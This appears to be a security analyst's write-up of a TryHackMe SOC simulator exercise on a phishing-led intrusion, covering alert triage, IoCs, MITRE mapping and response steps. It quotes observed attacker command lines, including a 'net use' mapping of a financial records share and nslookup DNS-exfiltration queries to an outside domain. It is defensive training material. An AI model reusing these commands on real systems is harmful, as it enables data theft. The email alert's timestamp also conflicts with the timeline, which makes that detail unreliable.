# TryHackMe SOC Simulator - Phishing Unfolding

## Overview
This scenario generated a total of 36 security alerts within a 30–40 minute timeframe, including multiple phishing emails and suspicious parent-child process relationships. The objective of the exercise was to simulate operational pressure and evaluate the ability to prioritize alerts based on their severity and relevance.
From the full set of alerts, only four were selected for this report, as they represent the core of the attack chain and the actual compromise of the victim. These events provide a clear view of the intrusion path, from initial access to potential data exfiltration and command-and-control activity.

---

## Tools Used

- **Splunk** – Log analysis and alert investigation  
- **Elastic Stack (ELK)** – Alternative SIEM analysis and correlation  
- **VirusTotal** – Threat intelligence

---

## Alert 1005

**When:** 2026-05-01 14:59:51.209 

**Who:** Michael Ascot (CEO) – michael[.]ascot@tryhatme[.]com – Host: win-3450  

**Where:** Inbound email from john@hatmakeurope[.]xyz  

**What:** Suspicious email with `.zip` attachment  

**Why:**  
The email shows clear phishing characteristics:
- Suspicious TLD (.xyz)
- Compressed attachment (.zip)
- Urgent request related to payment
- Social engineering encouraging immediate action  
  
**Escalation:** Yes  

**Additional Notes:**  
No interaction detected. VirusTotal analysis did not flag the domain or attachment, but behavior strongly suggests phishing.

**Recommendation:**  
Delete the email and block the sender.

**Screenshots:**

 

---

## Alert 1020

**When:** 2026-05-01 14:02:57.683

**Who:** Michael Ascot (CEO) – michael[.]ascot@tryhatme[.]com – Host: win-3450  

**Where:**  
Sysmon Event ID 11 – File created  
Process: powershell.exe  
Path: C:\Users\michael.ascot\Downloads\PowerView.ps1  

**What:** PowerShell script created  

**Why:**  
Suspicious script created in Downloads, likely after execution of a malicious file.  
PowerView is commonly used for reconnaissance.
  
**Escalation:** Yes  

**Additional Notes:**  
Likely linked to phishing stage. Requires user validation.

**Screenshots:**
  
  

---

## Alert 1022

**When:** 2026-05-01 14:04:52.683  

**Who:** Michael Ascot (CEO) – michael[.]ascot@tryhatme[.]com – Host: win-3450  

**Where:**  
Sysmon Event ID 1 – Process creation  
Process: net.exe  
Parent: powershell.exe
Process command line: `"C:\Windows\system32\net.exe" use Z:\FILESRV-01\SSF-FinancialRecords`

**What:** Network share mapping  

**Why:**  
Execution of `net use` via PowerShell from Downloads is suspicious and may indicate:
- Unauthorized access to sensitive data  
- Preparation for data exfiltration  
  
**Escalation:** Yes  

**Additional Notes:**  
Possible access to financial records.

**Screenshots:**
 


---

## Alert 1034

**When:** 2026-05-01 14:06:53.683  
**Who:** Michael Ascot (CEO) – michael[.]ascot@tryhatme[.]com – Host: win-3450  

**Where:**  
Sysmon Event ID 1 – Process creation  
Process: nslookup.exe  
Parent: powershell.exe
Process command line: `"C:\Windows\system32\nslookup.exe" RmYjEyNGZiMTY1njZlfQ==.haz4rdw4re.io`

**What:** Suspicious DNS query execution  

**Why:**  
Execution of nslookup via PowerShell with Base64-encoded subdomain suggests:
- DNS tunneling  
- Data exfiltration  
- C2 communication  

Execution from Downloads increases suspicion.
  
**Escalation:** Yes  

**Additional Notes:**  
Strong indicator of compromise.

**Screenshots:**
 
  

---

## Correlation & Pattern

**Screenshots:**
  


Observed behavior:
- Repeated nslookup execution  
- Parent process: powershell.exe  
- Execution from Downloads  
- Base64-encoded domains  
- Events every 30 minutes  

Indicates automated C2 beaconing or data exfiltration.

---

## Timeline

- 14:02 → PowerShell script created  
- 14:04 → Network share accessed  
- 14:06 → First DNS suspicious query  
- +30 min intervals → Repeated beaconing  

---

## Indicators of Compromise (IoC)

- john@hatmakeurope[.]xyz  
- haz4rdw4re.io  
- Base64 subdomains  
- PowerView.ps1  
- powershell.exe spawning:
  - nslookup.exe  
  - net.exe  
- \\FILESRV-01\SSF-FinancialRecords  

---

## MITRE ATT&CK

- T1566.001 – Phishing Attachment  
- T1059.001 – PowerShell  
- T1021.002 – SMB/Windows Shares  
- T1048 – Exfiltration Over Alternative Protocol  
- T1071.004 – DNS  

---

## Takeaways

- Phishing is still highly effective  
- PowerShell is heavily abused in attacks  
- Downloads folder execution is high-risk  
- DNS can be used for stealth exfiltration  
- Regular intervals = automation (beaconing)  
- Behavioral analysis > signature detection  

---

## Recommended Actions

- Isolate host win-3450  
- Reset credentials  
- Block domains and sender  
- Perform forensic analysis  
- Monitor DNS traffic  
- User awareness training  

---

### Screenshot



## Conclusion

The analyzed alerts indicate a coordinated multi-stage attack starting from a phishing email and progressing through PowerShell execution, network share access, and suspected DNS-based C2 activity. The correlation between processes and timing suggests an automated attack chain requiring immediate containment and further investigation.